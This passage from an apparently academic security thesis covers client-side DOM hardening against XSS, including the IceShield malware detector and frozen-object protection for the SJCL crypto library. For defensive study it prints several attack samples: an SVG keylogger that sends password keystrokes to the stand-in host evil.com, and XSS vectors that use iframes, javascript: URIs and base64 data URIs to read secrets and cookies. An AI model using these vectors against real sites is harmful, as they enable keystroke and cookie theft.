 It will thereby leak the CSRF token to an otherwise CSRF-protected resource to an arbitrary attacker controlled domain context. Zalewski describes these and related attack techniques as ``dangling markup injections'' -- noting that especially button and textarea elements are of great risk potential as well~\footnote{Zalewski, M., \textit{Postcards from the post-XSS world}, \url{http://lcamtuf.coredump.cx/postxss/} (Dec 2011)}. Our prototypic tool protects against this attack as of now, but we admit using a rather inelegant method. Specifically, we apply a random name-space to all elements loading binary resources, prefixing the \textit{src} attribute values with an anchor. During run-time, we inspect the source and in case it contains HTML markup, we replace the ``name-spaced'' node by a reconstructed element reflecting the state of the original tag. We still decided on listing this attack under current limitations, since the approach is not particularly clean and relies on the user agent misbehavior of pre-loading binary resources for some elements on documents created with \textit{document.implementation.createHTMLDocument}. \\

      Other attacks that are markup-based and do not require scripting to execute are unlike to bypass the tool's protective coat. CSS-based history-stealing attacks can be mitigated on the user agents that do not even protect against this attack technique. HTML5 \textit{auto-focus} based focus-stealing attacks can be alleviated by removing or balancing \textit{autofocus} attribute usage. The singular problem that may occur is the case where a victim is being attacked by a markup-only attack vector while not having JavaScript activated, because either NoScript is blocking script execution or an attacker uses the \textit{X-XSS-Protection} headers of a website to oppress script execution. The offender can then activate a script-less attack vector to leak data, consequently tricking the user into submitting forms or similar data leakage vectors to external URIs. Ironically, the server-side deactivation of \textit{X-XSS-Protection} is recommended for websites using a DOM-based protection approach. Otherwise, an attacker can mislead the user agent into deactivating script execution before the tool can start inspection and protection of the DOM. Browser-based XSS filters hinging on the \textit{X-XSS-Protection} headers  make great tools of protecting against reflected XSS in many situations, but they usually cannot deal with the stored XSS or DOMXSS. They are functional solely by using matching between URL parameters, a black-list of possibly malicious code snippets, and markup reflected on the website. No capability controls besides simple script execution blocking have been implemented in browser-based XSS filters so far. For that reason, they are neither capable of providing APIs for DOM inspection nor of detecting malware and DOM proxies.\\

      In 2011, we have discovered and reported a specific markup-only attack affecting Mozilla Firefox browser with deactivated JavaScript and the Thunderbird email software in beta version 9.0. We have exposed a rather unknown and rarely used feature in SVG 1.1, capable of having elements react to activation of an access key~\footnote{W3C, \textit{19 Animation}, \url{http://www.w3.org/TR/SVG/animate.html#BeginAttribute} (Dec 2011)}. Using this feature, an attacker can implement a script-less SVG file deployable as inline SVG and have keystrokes be noticed and delegated to change an existing element's attribute. Out attack vector utilized an image element enclosing several set tags reacting to the key strokes available from a to z and 0 to 9. With each keystroke we connected an attribute change to the image \textit{xlink:href} attribute. This clearly caused the image tag to attempt a new image source loading. That image source was made to point to an external attacker-controlled domain, as evident from the example in Listing~\ref{lst:svg-keylogger} the domain \textit{//evil.com}. We successfully tested the attack on Firefox with latest NoScript, Thunderbird and other clients using the Gecko layout engine respectively. Without scripting an attack and data-leak based on the SVG \textit{accessKey}, this feature cannot be mitigated. Once again, the example serves its purpose of underlining the importance of the approach permitting JavaScript execution. Instead of selectively blocking script execution, restricting DOM object capabilities can easily prevent attacks by for instance disconnecting a global keyboard event from the SVG specific key handler logic.

\begin{lstlisting}[captionpos=b,caption=Using SVG to sniff keystrokes w/o JavaScript; the SVG accessKey() feature combined with image source changes leaks sensitive data, label=lst:svg-keylogger]
<!doctype html>
  <form>
  <label>type a,b,c,d - watch the network tab/traffic</label>
  <br>
  <input name="secret" type="password">
  </form>
  <!-- injection -->
  <svg height="50px">
    <image xmlns:xlink="http://www.w3.org/1999/xlink">
      <set attributeName="xlink:href" begin="accessKey(a)" to="//evil.com/?a" />
      <set attributeName="xlink:href" begin="accessKey(b)" to="//evil.com/?b" />
      <set attributeName="xlink:href" begin="accessKey(c)" to="//evil.com/?c" />
      <set attributeName="xlink:href" begin="accessKey(d)" to="//evil.com/?d" />
    </image>
  </svg>
\end{lstlisting}

    Our ongoing research on this attack vector and other ways to use SVG images to send key strokes and other data to arbitrary domains have shed light on the Thunderbird email client being affected as well. The very same attack can be used to effectively spy on users while they are reading or composing mails. By now, the attack had been reported and later on addressed with a patch. CVE-2011-3663 has been assigned to track this defect. The attacks we outline here classify as script-less attacks but in fact have impact similar to the one that XSS exploit has. Unsuspecting users may be prone to and vulnerable against further attacks using CSS. In a theoretical situation of a sand-boxed Iframe keeping JavaScript from executing, these attacks cannot be mitigated by our approach. Nevertheless, our scope is clearly indicated to encompass scripting attacks. Extensive supplementary research on script-less attacks accomplishing much the same goals is required and highly desirable.

  \section{Use Case I: JavaScript Crypto Library}
    \label{subsubsec:6.6.6.real_life_use_cases}

      Sections ~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac} and ~\ref{subsubsubsec:6.6.4.2_event_control} discussed security challenges, which we have launched and completed to prove feasibility of our approach, while learning about novel attacks and hardening the tool against them. Aside from making this contribution, we decided to prepare further real-life use cases, demonstrating how even the smallest and simplest DOM changes can augment security of a given library. We have created a custom script to weave an additional protection layer for security-related yet insecure libraries already in place. Our engagement almost never exceeded a few dozens of lines of code, yet it grants strong protection against XSS attacks and similar exploits. 

      \subsection{Introducing SJCL}
      \label{subsubsubsec:6.6.6.1.javascript_crypto_library}

       Published in 2009 by Stark et al, the Stanford JavaScript Crypto Library (SJCL) is an entirely JavaScript-composed tool, providing cryptography features for use in modern browsers~\cite{stark2009symmetric}. The SJCL is small, lightweight and fast -- by mostly relying on native browser functions and the \textit{Math} object. SJCL supports AES 128, 192 and 256 allows to salt and strengthen hashed value, supports HMAC and is known to function on the majority of relevant browsers. Unfortunately, SJCL is not safe against XSS attacks and a single XSS vulnerability potentially compromises the integrity of the results provided by this library. Once a website uses the tool, an a attacker can abuse XSS vulnerabilities to hook into the libraries' methods, overwrite the core object, extract data from the encryption steps, and leak or even modify sensitive data. We believe that primarily those websites handling critical information would make use of the SJCL. Therefore, the library should contain proper self-defense mechanisms to be aware and, as much as possible, immune against code injection attacks. Since this scenario is a predestined use case for our trusted DOM approach, we decided to implement a small prototypic wrapper to make sure that SJCL features cannot be influenced by DOM injections performed by an attacker.\\

      \subsection{Protecting SJCL}
      \label{subsubsubsec:6.6.6.2.protecting_sjcl}

      We have analyzed the SJCL source code and found out that it is using no more than one global object, five host objects and four global native methods. This is beneficial for a short and fast protection script implementation. The following list shows the methods and objects prone to XSS attacks, present in SJCL. Once those are protected from manipulation and interception, an attacker has a significantly smaller surface to successfully deploy payload against SJCL and any website using it.

\begin{itemize}
  \item \texttt{sjcl}
  \item \texttt{Date.valueOf()}
  \item \texttt{Array.\{slice(), concat(), push(), pop()\}}
  \item \texttt{Math.\{round(), ceil(), floor(), pow(), random()\}}
  \item \texttt{String.\{substr(), fromCharCode(), charCodeAt(), charAt(), \\
    replace(). indexOf(), match()\}}
  \item \texttt{Object.hasOwnProperty()}
  \item \texttt{decodeURIComponent()}
  \item \texttt{encodeURIComponent()}
  \item \texttt{escape()}
  \item \texttt{unescape()}
  \item \texttt{parseInt()}
\end{itemize}

    In this particular situation, our approach includes re-definition of the SJCL as well as the affected host objects with safe copies of themselves. We are setting the SJCL objects configurability descriptor to false, sealing and freezing them to provide shelter from potentially malicious extensions. As long as this code is deployed before an attacker can inject JavaScript, the solution can be considered relatively safe. Regrettably, DOM clobbering debated in Section~\ref{subsubsec:5.4.3.dom_clobbering}, remains to pose a threat against this approach. Applying the mitigations against DOM clobbering attacks we described in the aforementioned section will luckily eliminate this threat and protect SJCL against this type of attacks. A rather simplified code in Listing~\ref{lst:protecting-sjcl} shows the basic outline of our approach, targeted at sealing and protecting SJCL. The illustration is already a simplified approach of protection against DOM clobbering attacks and similar techniques, as detailed in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac} and Section~\ref{subsubsubsec:6.6.4.2_event_control}

\begin{lstlisting}[captionpos=b,caption=Protecting SJCL with ES5 and a frozen DOM, label=lst:protecting-sjcl]
<script type="text/javascript">
  with(Object)
    defineProperty(window, 'sjcl', {value: sjcl, configurable:false}),
    seal(sjcl),
    freeze(sjcl),
    defineProperty(window, 'String', {value: String, configurable:false}),
    seal(String),
    freeze(String);

    ...

  Object.defineProperty(window, 'escape', {value: escape, configurable:false});
  Object.defineProperty(window, 'unescape', {value: escape, configurable:false});
</script>
\end{lstlisting}

    The SJCL project was easy to be wrapped into a trusted DOM environment. Only one global object is being created and only a handful of host objects and native methods are used by this library. As of yet, our simplified approach does not encompass Clickjacking and UI Redressing defense. Any subsequent implementation should make sure that  sources and sinks providing the SJCL with input and receiving its output need to be properly protected and sealed as well. This provided alongside a estimated requirement of between two and ten supplementary lines of code, the SJCL can be considered hardened and tamper-resistant against code injection techniques. To summarize, sealing the global \textit{sjcl} object, sealing and freezing the host objects, providing native methods and properties for the SJCL, and finally sealing and protecting the sources and sinks for data processed by the SJCL will drastically increase the level of security for this library and the features it provides.\\

    The approach of sealing critical library properties and making sure the native DOM methods are not to be tampered with can easily be generalized as usable for other JavaScript tools available. Note that especially an integrity check for host objects and native DOM methods is of great importance for any library to deliver the promised functionality. In case an attacker has tampered with the DOM, the library itself rests sealed and secured. The single thing it needs is to assure that its native methods in use have not been modified by an unauthorized script or DOM manipulation. This can be accomplished by using a safe getter's creation procedure described in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac}. Once the object's type is determined, preferably by storing an original safe copy and comparing this to the object after it was used, the method call can be permitted. If called method and the stored one differ in any way, the script can abort the code flow and display a warning or issue a request to notify the website owner about a possible attack. One has to note that an elementary check using the \textit{instanceof} operator is not sufficient for identifying a compromised object. Furthermore, \textit{toString}/\textit{toSource} operations to obtain source code of modified function code might be intercepted by an attacker (during our field reserach we obtained Malware samples using those checks to determine if a Honeypot/wrapped DOM might be present). Only a combined check for object type and a comparison to a clean and unique copy can assure a reliable identity verification.\\

    Note that additional protection for the exposed child properties of the hosting \textit{sjcl} is necessary as well. We we need to assure that only a safe getter is allowed to access their data; this is for instance for the \textit{sjcl.cipher} and \textit{sjcl.random} objects. Once the hosting object is being sealed and the child property values can only be retrieved and called by other child properties, an increased level of security can be reached. This effectively means that the library can be hardened against scripting attacks and DOM clobbering vulnerabilities without changing its code or modifying structural aspects.\\


  \section{Use Case II: Malware Detection with IceShield}
  \label{subsec:6.5.introducing_iceshield}

  In this section, we introduce IceShield, which is a novel approach to performing light-weight instrumentation of JavaScript, detecting a diverse set of attacks against the DOM tree, and protecting users against such attacks. The instrumentation is light-weight in the sense that IceShield runs directly \emph{within the context} of the browser, as it is implemented solely in JavaScript. Thus, the runtime overhead is low, and IceShield works well on embedded browsers, such as those in modern smart-phones. Due to dynamic analysis, we do not need to consider obfuscation because we can inspect the attack attempt during run-time, exactly at the point where the payload is being decoded and available in plain-text. Since the detection is implemented in JavaScript, our approach is almost completely independent from the actual browser and enjoys portability across browsers and platforms.\\

  Implementing the instrumentation in a robust and tamper-resistant way requires specific and extra care. As the tool is implemented in JavaScript, an attacker could try to overwrite our analysis functions during run-time. We demonstrate how an instrumentation can be implemented in a correct manner, void of tampering option. The basic idea is to take advantage of a new feature available in ECMA Script 5 (ES5), namely the \textit{Object.defineProperty()}~\cite{_defineproperty_????}. This features allows us to \emph{freeze} object properties, host objects, functions and native DOM properties included, so that they cannot be modified later. Key modern browsers -- Firefox 4, Chrome 6-10 and Internet Explorer 9 - all support this feature. This lets us mitigate attacks against our instrumentation, where an attacker tries to change or re-set the overwritten methods or access the original native methods to bypass the inspection and detection process. \\

  By performing the analysis directly in the browser, IceShield can fend attacks and protect the user and website utilizing the tool, too. We are able to identify which parts of the page contain suspicious elements and alter them accordingly. To have a minimal impact, in case of false positives, we use padding for destroying the payload of potential exploit, but at the same time, we manage to avoid visible impact on the rendered website. Actual protection from attacks is thereby granted to users, who additionally benefit from marginally low percentage of perceivable false positives.\\

  We have implemented a prototype version of IceShield and evaluated the tool on three different machines: A high-end workstation, a net-book, and a smart-phone. The runtime overhead of IceShield is on average below 12 ms for the workstation and 80 ms on a smart-phone. Using live malicious websites, we were able to achieve a detection accuracy of 98\%. Furthermore, we successfully detected three exploits that the tool had never seen before and demonstrate how attacks can be swimmingly mitigated.\\

    \subsection{Features and Heuristics}
    \label{subsubsec:6.5.1.features_and_heuristics}

    IceShield utilizes the ES5 feature called \textit{Object.defineProperty()}~\cite{_defineproperty_????} we mentioned in Section~\ref{subsubsec:6.3.2.es5_object_extensions} to implement the instrumentation in a solid and comprehensive manner. This method permits us to define new (and re-define existing) object properties, including methods and native DOM properties. Furthermore, the method allows passing a descriptor literal, specifying the options applications for the defined property. \\

    For IceShield, \textit{configurable} is the most relevant descriptor, alongside with the possibility to set it to \textit{false}, and thusly \textit{freezing} the property state. Once again, freezing means that no other script can change the property or any of its child properties ever again. Even a \textit{delete} operation will not affect the property value or any of the descriptor flags. This renders our approach tamper-resistant to attackers trying to change or reset the overwritten methods or access the original native methods to bypass the inspection and detection process. The same holds true for property retrieval tricks working on Gecko-based browsers such as \textit{Components.lookupMethod(top, 'alert')}. Here an attacker cannot use this technique to bypass the freezing we used in IceShield either. Resorting to the method \textit{Object.freeze()} will also accomplish object freezing. Finally, \textit{Object.defineProperties()} command countenances batch processing of several objects to be frozen simultaneously.\\

    IceShield does not attempt to modify the user agent protected \textit{location} object. Most modern browsers forbid getter access to this object and its child nodes for the sake of user privacy and avoiding security problems. JavaScript executed via direct \textit{location} object access -- for example, via the vector \textit{location=name} or \textit{location.href='javascript:alert(1)'} -- will be executed in the scope we can control, so no additional protection mechanisms need to be applied. Same applies to location methods like \textit{replace()}, \textit{apply()} or the \textit{document.URL} property. Details on how to cover and protect against attacks utilizing \textit{location} are presented in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}.\\

    While making sure that IceShield will notice even the most exotic code execution attempts, we have discovered that it was not sufficient to just intercept calls to native methods relating to \textit{window} and \textit{window.document}. Monitoring read- and write-access for several DOM properties as well as the dynamic creation and manipulation of HTML elements and tags was equally necessary. Thus, we overwrite the setter and getter methods of several HTML element prototypes, such as for example, \textit{HTMLScript.prototype.src} or any given HTML element prototypes \textit{innerHTML} and \textit{outerHTML} properties. We also overwrite and seal \textit{document} methods capable of creating new HTML elements, such as \textit{document.createElement()} and \textit{document.createElementNS()}. Malicious code often creates new DOM elements, applies the necessary attributes, and then attaches the element to the DOM to execute the payload. \\

The set of heuristics and rules can be comparably slim, since the parameters inspected are usually being de-obfuscated by the executing script before hitting the rules. This significantly reduces overhead and enables further and more detailed analysis on potentially malicious code. Our heuristics are based on a manual analysis of current attacks, and we tried to generalize the heuristics such that they are capable of detecting a wide variety of attacks. Some heuristics are used in a similar way by \textsc{Wepawet}~\cite{cova_detection_2010}, and we extended the coverage by taking features such as the creation of potentially dangerous elements into account. Note that these heuristics serve as a proof-of-concept and new heuristics can be easily added to the system. We found in our empirical tests that our features already cover all relevant and current attack vectors, and the heuristics can still be refined if the need arises. The following list describes the heuristics currently used by our prototype: 
%The different features correspond to the attack patterns we have discussed in Section~\ref{detection_range} and illustrate the range of attacks we can discover with \tool{}. 
%The individual rules are internally being applied with identifiers to protect the users privacy and ease later database based analysis and cumulation:

\begin{enumerate}
      %
  \item \emph{External domain injection}: A script injects an external domain into an existing HTML element which can indicate malicious activity, for example, link or form hijacking. We distinguish between injection of \verb|<embed>|, \verb|<object>|, \verb|<applet>|, and \verb|<script>| tags, as well as, \verb|<iframe>| injections.
      %
  \item \emph{Dangerous MIME type injection}: A script applies a MIME type that is potentially dangerous to an existing DOM object such as \\ \verb|application/java-deployment-toolkit|.
      %
  \item \emph{Suspicious Unicode characters}: A string used as argument for a native method containing characters indicating a code execution attempt such as \verb|%u0b0c| or \verb|%u0c0c|.
      %
  \item \emph{Suspicious decoding results}: Decoding functions like \verb|unescape()| or \\ \verb|decodeURIComponent()| that contain suspicious characters indicating code execution attempts.
      %
  \item \emph{Overlong decoding results}: A decoding function like mentioned above receives an overlong argument. For now, we use a threshold of 4096 characters based on our empirical evaluation of current attacks and benign sites.
      %
  \item \emph{Dangerous element creation}: A script attempts to create an element that is often used in malicious contexts for example, \verb|<iframe>|, \verb|<script>|, \verb|<applet>| or similar elements. We distinguish between elements being created with and without an explicit namespace context.
      %
  \item \emph{URI/CLSID pattern in attribute setter}: An element attribute is being applied with an external URI, data/JavaScript URI or a Class ID (CLSID) string.
      %
  \item \emph{Dangerous tag injection via the} \verb|innerHTML| \emph{property}: A script attempts to set an existing element's value with a string containing dangerous HTML elements such as \verb|<iframe>|, \verb|<object>|, \verb|<script>|, or \verb|<applet>|.
      %
  %\item \emph{Invisible/out-of-sight elements}: An element with attributes that make it invisible such as full transparency, a position outside the view port, very small dimensions or a negative or sufficiently low z-index.
      %
  %\item \emph{Read-access to} \verb|document.cookie|: A script attempts to read the domain's cookie data.
\end{enumerate}


    In order to  verify the heuristics introduced above, we overwrite and hook inline code as the basic techniques to perform the instrumentation. We overwrite and wrap the native JavaScript methods into a context that allows us to dynamically inspect the name of the called function and its parameters during runtime. The original overwritten method is stored inside IceShield's confinement in the event that we want to call it later on. This kind of overwriting is successfully used in other contexts as well, for example to perform binary analysis~\cite{F02,WHF07}.\\

    In case the heuristic analysis does not indicate an ongoing attack attempt, the stored original method will be called with the unmodified set of parameters to preserve the intended code flow. If a particular threshold defined by the internal scoring mechanisms of IceShield has been reached after the analysis, the method call can either be blocked completely or the set of arguments can be modified to keep the code flow intact, yet prevent the attack. As an example for mitigating attacks, imagine a long string of shell-code being nulled before being used as a parameter for the original version of the JavaScript method \textit{unescape()}. This approach facilitates generating complete maps, illustrating the actual code flow of JavaScript code.\\

    \subsection{Evaluation}
    \label{subsubsec:6.5.2.evaluation}

    For the proof-of-concept implementation, we have developed heuristics for sixteen features that are computed for a given website. These include cross-domain pull requests, suspicious characters and substrings, cross-domain cookie access, overlong strings and frequent calls to suspicious methods. 
    To determine whether a website is benign or malicious, we use Linear Discriminant Analysis (LDA). An instantiation of the parameters for our data mining algorithm signified usage of the training data we will now present. A complete training set consists of the top fifty sites from the Alexa traffic ranking and thirty malicious sites we randomly choose from the known-bad dataset. The test-set comprises of 61,504 sites falling outside of the top fifty sites we used in our training set, and the remaining fifty-one exploit kit instances from the known-bad dataset.\\

    Using the model computed from the training set, we were able to detect fifty out of fifty-one malicious sites in our known-bad test-set. We have done so while achieving a false positive rate of 2.17\%. We manually investigated the malicious sample that went undetected and found that this particular exploit relied on a DOM variable for execution, which was not set by the JavaScript code, but by a Java file (\texttt{.jar} file) loaded from within the site's context. As we do not currently execute Java in our test environment, the de-obfuscation routine lacked said variable. Hence the execution stopped and we were unable to observe any relevant feature, except that the site accessed \texttt{document.cookie} twice. Still, a successful attack would require the execution of the Java applet, which would enable us to actually observe the behavior (and a feature vector) indicating a malicious site. We re-tested this site with a browser that had Java enabled and could indeed detect this particular exploit successfully. \\

    The false positive rate of 2.17\% might sound high. However, to protect the user, IceShield does not need to block access to a site that triggers an alert. Instead, the tool can remove questionable elements from the DOM tree. Our solution is capable of determining in which method call the possible attack takes place and which external resources are necessary to conduct and deploy the attack; thus, we can strip this data from the site and effectively mitigate the attack. Only certain elements are lacking from the DOM tree, so a user is unlikely to notice an occurrence of a false positive. To confirm that the majority of pages remain usable, even with parts of the DOM removed, we have manually evaluated a 10\% sample set (134 sites) randomly chosen from the false positives. The removal of the DOM elements was not noticeable by the test-performing human user in 82.9\% of the sites -- and 9.6\% of the websites were partially usable (e.g., banner ads were not displayed correctly or simply missing). Only 7.5\% of the false positives were left unusable through the removal of the DOM elements. This means that the \emph{effective false positive rate} for where the presence of the tool is discerning for a user, is roughly just 0.37\%. \\

    Besides testing our tool against exploit kits and the known-bad dataset, we also examined IceShield's capability to detect attack vectors it had not previously seen. To perform this test, we manually searched for websites serving individual exploits like an Internet Explorer exploit (CVE 2010-3962) and sites exploiting a memory corruption flaw in Apple Quicktime's QTPlugin.ocx ActiveX control (CVE 2010-1818). We have then confirmed manually that both exploits were absent from our known-bad dataset. 
    We have tested IceShield against these exploits and both attack vectors were labeled as malicious using our heuristics and model. This fact underlines the flexibility of our approach and its capacity to detect both very recent and older more widespread threats. Furthermore, we verified that both exploits are effectively mitigated as their respective payload is not executed due to its removal from the DOM tree. \\

    Testing against an exploit delivered via MHTML (CVE-2011-0096) has produced similarly positive results. This way of payload deployment is known to bypass most of the existing filter mechanisms since the subset of characters necessary for JavaScript's execution is very small and does not include double-quotes or parenthesis (U+0022, U+0028, U+0029). The payload was delivered in Base64 encoding but had to use a set of native functions monitored by IceShield during the user agent's decoding and execution processes. Plus, the results suggest that IceShield is capable of detecting novel attacks that were prior unknown to the system. \\

    \subsection{Conclusion on Malware Detection with a Frozen DOM}
    \label{subsubsec:6.5.3.conclusion}

    With IceShield, we presented a tool to perform light-weight dynamic analysis of JavaScript code \textit{directly} in the context of a browser in order to detect and prevent attacks. This is achieved by inline code analysis and hooking to wrap native JavaScript methods into a context that enables us to dynamically analyze the behavior of these methods. We use techniques from the area of machine learning to compute a model of malicious behavior and can efficiently apply this model during runtime. Special care is taken to implement the instrumentation in a robust way such that an attacker cannot overwrite or infer with our analysis code. To this end, we introduced a novel technique to use features of the new ECMA Script 5 standard which allows us to \textit{freeze} object properties. In an empirical evaluation, we achieved a detection accuracy of 98\% and were able to detect three previously unknown attacks. The performance overhead of IceShield is low, even on small devices such as smart-phones or net-books.

  \section{Future Optimizations}
  \label{subsec:6.7.future_optimizations}

      While the current state of our implementation is functional but fragile, the envisioned future work will be capable of mitigating existing weaknesses and work towards a safer and ultimately trusted DOM. Most importantly, we need to enumerate the outstanding problems to be able to define a strategy for securing the DOM. The following sections will outline the present-day scope of issues and arrive at a novel addition to the existing user agent DOM. This proposed addition shall be capable of installing a fully seamless net of protection that a reliable and robust DOM-based security tool requires and deserves. With these goals in mind, we started collaborating with the Internet Explorer, Mozilla as well as the W3C teams in order to receive quality feedback pertaining to our approach and in hopes to open the door for actual implementations in upcoming browser releases. 

    \subsection{Taming JavaScript and Data URIs}
    \label{subsubsec:6.7.2.taming_javascript_uris}

    JavaScript and Data URIs play an important role in the discussions around a hardened and secure DOM, given that they can be used to illegitimately allow an attacker to generate a crimson DOM without any protective methods applied. The usage of a JavaScript or Data URI with a nested scripting context will bypass the protection of strict deployment order discussed in Section~\ref{subsec:6.4.creating_a_frozen_dom}. The following list enumerates several cases of an attacker ability to create a fresh DOM which is still running in the same domain context as the website the shown elements are injected to:

    \begin{itemize}
      \item Injection using an Iframe pointing to a server generated 404 website / JavaScript URI creating a fresh and untreated DOM:\\ 
      \texttt{
	<iframe src="404" onload="frames[0].document.write(\%26quot;<script> \\
	r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2' \\
	,false); r.send(null);if(r.status==200) alert(\\
	r.responseText.substr(150,41));<\/script>\%26quot;)"></iframe>\\
      }\\ 
      The Iframe accesses itself by selecting its parent document property \textit{frames[0]}. It rewrites its own content to execute an \textit{XMLHttpRequest}, effectively getting hands on the secret data.
      %
      \item Injection performing an XHR by redirecting to a JavaScript URI creating a new DOM: \\ 
      \texttt{
	<script>location.href='javascript:"<script>xhr=newXMLHttpRequest();xhr \\
	.open(\'GET\',\'http://xssme.html5sec.org/\',true); \\
	xhr.onreadystatechange= function()\%7bif(xhr.readyState==4\%26\%26 \\
	xhr.status==200)\%7b alert(xhr.responseText.match(/document.cookie= \\
	\%5c'([\^\%5c']\%2B)/)[1])\%7d\%7d;xhr.send();</scri"\%2B"pt>"'</script> \\
      }\\ 
      This attack can be mitigated by gaining control over the \textit{location} object accessors.  Recent versions of Firefox browser and other Gecko-based user agents make it possible nowadays.
      %
      \item Injection creating an object using a Base64 encoded data URI performing an XMLHttpRequest: \\ 
      \texttt{
	<object data="data:text/html;base64, PHNjcmlwdD4gdmFyIHhociA9IG5ldyBY \\
	TUxIdHRwUmVxdWVzdCgpOyB4aHIub3BlbignR0VUJywgJ2h0dHA6Ly94c3NtZS5odG1sN \\
	XNlYy5vcmcveHNzbWUyJywgdHJ1ZSk7IHhoci5vbmxvYWQgPSBmdW5jdGlvbigpIHsgYW \\
	xlcnQoeG hyLnJlc3BvbnNlVGV4dC5tYXRjaCgvY29va2llID0gJyguKj8pJy8pWzFdKS \\
	B9OyB4aHIuc2VuZCgpOyA8L3NjcmlwdD4=">
      }\\
      \\
      An additional problem -- not in scope of our defense approach though - is the fact that Data URIs do not yield a request visible for a server, but still execute in the same domain context. An attacker can thereby easily bypass IDS/IPS systems to hide payload and evade detection.
    \end{itemize}

    The bypasses above present problems for a client-side defense tool of lacking visibility and control over location property access and Iframe as well as Iframe-like elements loading non-HTTP URI scheme data (\textit{object}, \textit{embed}). Especially JavaScript and \textit{data:} URIs cause significant amount of trouble, since they evade server-side and client-side protection mechanisms we specified and discussed in this thesis so far. Additional issues appear on almost all tested user agents: Applying script elements with Data URI \textit{src} attributes -- such as \texttt{<script src=data:, alert(document)></script>} -- will again end in accessing a fresh and untreated DOM providing objects that will help bypassing our defense.\\

    Since the existing implementations of ECMA Script / Harmony Proxies mentioned in Section~\ref{subsubsec:6.7.3.dom_proxies_enabling_whitelists} are neither capable nor desired to be able to intercept calls and accessor requests to host objects thus far, we had to find another way of tightening the DOM and getting control over Iframes, JavaScript and non-HTTP redirects to weave a seamless net around the DOM and enable full access control. Two techniques could have been pinpointed as best possible solutions at present - first is applicable to almost all tested browsers and second is right now available in Firefox and Gecko-based user agents. \\

    The first technique operates by fully wrapping the \textit{location} object and making sure that any URL being navigated to by a script-initiated redirect can be analyzed and potentially modified before the redirect happens. The worst case scenario for reacting on a redirect-based attack would be to stop the redirect and inform the user about the blocked attack attempt. Allowing control over the \textit{location} object is a double-edged sword. On the one hand, JavaScript redirects allow websites to deploy frame-busting code and confirm that certain domains can frame website while others cannot. This helps mitigating risks that may lead to Clickjacking attacks. Client-side scripting should not be considered a silver bullet against frame busting attacks. Rydstedt et al. have demonstrated the risks connected to faulty client-side frame buster implementations and specified a more reliable way to approach the problem wondering whether JavaScript has to be used for this purpose at all~\cite{rydstedt_busting_2010}. Furthermore, the \textit{X-Frame-Options} header provides a solid way to control cross-domain framing attacks. It allows a website to tell the user agents to disallow any form of framing - even if it is originating on the same domain~\footnote{MDN, \textit{The X-FRAME-OPTIONS Response Header}, \url{https://developer.mozilla.org/en/The_X-FRAME-OPTIONS_response_header} (Dec 2011)}. \\

    The lack of granularity introduced by the ternary X-Frame-Options header specification forbids its usage for many websites relaying on partnership and affiliate programs that require framing by selected specific websites, but not all of them. To tackle this problem and supply those websites with the possibility to deploy frame busting code that does not depend on error-prone client-side scripting, the Content Security Policy (CSP) allows to instrument a white-list of permitted domains for a better frame-busting control. The \textit{frame-ancestors} directive will be capable of accepting a whole list of URLs, including wild-cards for domains and sub-domains. Through that,  enough flexibility to deploy fine grained frame-busting control policies via HTTP headers is granted to the developers~\footnote{Mozilla Wiki, \textit{CSP Specification}, \url{https://wiki.mozilla.org/Security/CSP/Specification} (Dec 2011)}. This feature might render the necessity of JavaScript frame-busters non-existing and provides another reason as to why user agents should allow control over the location property accessors and location method callers, such as the ones possible in Gecko-based user agents. Note though, that the future of this specific directive is uncertain at the time of writing. Our investigations showed, that as of November 2011 the W3C specification for CSP does not contain any information on \textit{frame-ancestors} anymore~\footnote{W3C, \textit{Content Security Policy W3C Working Draft 29 November 2011}, \url{http://www.w3.org/TR/2011/WD-CSP-20111129/} (Nov 2011)}.\\

    The following Listing~\ref{lst:location-control-ff} shows the approach we chose for controlling \textit{location} access in Firefox. It highlights the symbolic method \textit{checkURI()}, which can be employed to check for malicious protocol handlers, ``proxify'' suspicious HTTP URLs, communicate with services like Malware Domain List (MDL), and pre-evaluate JavaScript URIs in a shadowed DOM and other arbitrary protective measurements. The method will return the actual \textit{location} object in case all security checks are passed properly. This Listing makes a point of illustrating the possibility for intercepting location getter access. We will detail the positive effects yielded by this instrumentation later in this section.

\begin{lstlisting}[captionpos=b,label=lst:location-control-ff,caption=Example code for location control in Firefox]
<script type="text/javascript">

// control location acesss and methods
Object.defineProperty(window, 'location', {value: {
    get: function(){console.log('get location')},
    set: function(){console.log('set location')},
    reload: function(){console.log('reload location')},
    replace: function(){console.log('replace location')},
    ...
    assign: function(){console.log('assign location')}
}});

// control location.href get/set
Object.defineProperty(location, 'href', {
    get: function(){console.log('get location.href')},
    set: function(){console.log('set location.href')}
});

// test setter access wrapping
location.replace(123);
...
location.href=123;
</script>
\end{lstlisting}

    The fact that no way exist to build an event-driven system to control HTML markup containing Iframes pointing to data or JavaScript URIs continues to be the most pressing problem for purely DOM-driven protection tools. Despite user agents' provision of novel and often proprietary events such as \textit{DOMContentLoaded} and \textit{DOMFrameContentLoaded}, Iframes applied with non-HTTP URIs might execute JavaScript code before any of these events fire. The issue here boils down to user agents' attempts to parse data as fast as possible. The \textit{DOMContentLoaded} event will for instance execute as soon as the user agent parser has reached the end of the DOM tree -- without waiting for external binary includes such as images or script sources. If those includes are not external but self-contained, the user agents will not hesitate to execute the content at once; effectively meaning the moment in which the parser reads the attribute and not after the browser hit the end of the DOM tree. A protective script can observe and proxy all calls resulting from user driven events, prepare HTML element constructors to make sure no data leakage can happen and even define safe getters and sealed events to make sure a RBAC framework can be installed. Unfortunately, all this can only happen effectively after the DOM has finished loading, which is an essence of a major problem. As soon as dynamic content executes during the parsing process, it becomes complicated, if not impossible, to avoid race conditions and apply the protective umbrella in time. \\

\begin{table}
  \centering
    \begin{tabular}{| l | l | l | l |}
    \hline
    Attack & Event based & Post-Body based & Interruption  \\ \hline
    Iframe JS/Data URI & solvable (FF) & unsolved & solved  \\ \hline
    Object JS/Data URI & unsolved & unsolved & solved  \\ \hline
    Embed  JS/Data URI & unsolved & unsolved & solved  \\ \hline
    Script JS/Data URI & unsolved & unsolved & solved  \\ \hline
    location JS/Data URI & unsolved & unsolved & solved  \\ \hline
    \end{tabular}
    \label{tbl:attacks-using-js-uris}
    \caption{Attacks using JS/data URI and countermeasures}
\end{table}

